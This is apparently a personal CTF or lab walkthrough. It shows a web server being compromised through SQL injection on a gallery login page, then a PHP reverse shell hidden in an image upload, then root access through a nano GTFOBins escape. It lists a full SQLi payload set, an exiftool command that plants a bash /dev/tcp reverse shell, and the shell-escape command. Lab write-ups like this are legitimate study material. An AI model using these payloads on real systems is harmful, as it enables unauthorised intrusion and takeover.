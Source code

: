 ```yaml
---
sticker: emoji//1f6e4-fe0f
---
```

![](../images/Pasted%20image%2020241007144603.png)
# Enumeration

```ad-info
**OPEN PORTS**:
![](../images/Pasted%20image%2020241007144658.png)
**FUZZING FOR PORT 80**:
![](../images/Pasted%20image%2020241007150635.png)

```

The moment I went to `/gallery`, I realized it was a login page, I tried some XSS and when I sent the request, this was the output:

![](../images/Pasted%20image%2020241007150803.png)
Seems like this login page is vulnerable to [[SQL INJECTION (SQLI)|SQLI]]
So, let's try to exploit it:

For this, I am using burp's intruder with the following payload list:

```ad-summary
'
''
`
``
,
"
""
/
//
\
\\
;
' or "
-- or # 
' OR '1
' OR 1 -- -
" OR "" = "
" OR 1 = 1 -- -
' OR '' = '
'='
'LIKE'
'=0--+
 OR 1=1
' OR 'x'='x
' AND id IS NULL; --
'''''''''''''UNION SELECT '2
%00
/*…*/ 
+		
||		
%		
@variable	
@@variable	
AND 1
AND 0
AND true
AND false
1-false
1-true
1*56
-2
1' ORDER BY 1--+
1' ORDER BY 2--+
1' ORDER BY 3--+
1' ORDER BY 1,2--+
1' ORDER BY 1,2,3--+
1' GROUP BY 1,2,--+
1' GROUP BY 1,2,3--+
' GROUP BY columnnames having 1=1 --
-1' UNION SELECT 1,2,3--+
' UNION SELECT sum(columnname ) from tablename --
-1 UNION SELECT 1 INTO @,@
-1 UNION SELECT 1 INTO @,@,@
1 AND (SELECT * FROM Users) = 1	
' AND MID(VERSION(),1,1) = '5';
' and 1 in (select min(name) from sysobjects where xtype = 'U' and name > '.') --
,(select * from (select(sleep(10)))a)
%2c(select%20*%20from%20(select(sleep(10)))a)
';WAITFOR DELAY '0:0:30'--
```

Also, as seen in the request, it must be URL encoded, so, I also put this in the payload processing:

![](../images/Pasted%20image%2020241007152753.png)

Let's launch the attack:
![](../images/Pasted%20image%2020241007152809.png)

![](../images/Pasted%20image%2020241007152818.png)
Seems like the attack worked for that payload, if we decode it, it is this payload:

`' OR 1 -- -`

And we got in as admin:

![](../images/Pasted%20image%2020241007153027.png)

If we look around, we find an image upload section:

![](../images/Pasted%20image%2020241007153644.png)

We can refer to our [[CYBERSECURITY/Bug Bounty/Vulnerabilities/SERVER SIDE VULNERABILITIES/FILE INCLUSION VULNERABILITIES/FILE UPLOAD|FILE UPLOAD]] note, when we try to upload a file, we can only upload images, `.jpg, .png` so, let's use `exiftool` to embed a reverse shell between an image:

```ad-note
```php-template
exiftool -Comment="<?php echo shell_exec('/bin/bash -c \'bash -i >& /dev/tcp/YOUR_IP_ADDRESS/YOUR_PORT 0>&1\''); ?>" cat.jpg -o shell.php
```

As we can see, file is an jpeg now:

![](../images/Pasted%20image%2020241007160746.png)

Let's try to upload it now:

![](../images/Pasted%20image%2020241007161320.png)
![](../images/Pasted%20image%2020241007161325.png)
![](../images/Pasted%20image%2020241007161334.png)
And we got a shell!

Let's proceed with PRIVILEGE ESCALATION:

First, let's spawn a [[STABLE SHELL|stable shell]], once we've done this, it's time to begin with our privilege escalation:

For the privilege escalation, I used [linpeas](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS), when I looked at linpeas output, I found this:
![](../images/Pasted%20image%2020241007163005.png)
seems like the password for user mike, let's su to mike:

![](../images/Pasted%20image%2020241007163600.png)
Now we are in as mike, let's look at mike's privileges:

![](../images/Pasted%20image%2020241007163724.png)
We found a rootkit.sh script, let's look at it:

![](../images/Pasted%20image%2020241007163807.png)
As shown in the read function of the script, it uses nano, if we go to gtfobins, this is shown:
![](../images/Pasted%20image%2020241007164109.png)

If we execute the script as the root user, this happens:
![](../images/Pasted%20image%2020241007165053.png)

Let's enter the read option:
![](../images/Pasted%20image%2020241007164217.png)
Next, enter `ctrl+r` and `ctrl+x`, then the following command:

`reset; sh 1>&0 2>&0`

![](../images/Pasted%20image%2020241007165137.png)

![](../images/Pasted%20image%2020241007165154.png)

And just like that, we got root access!

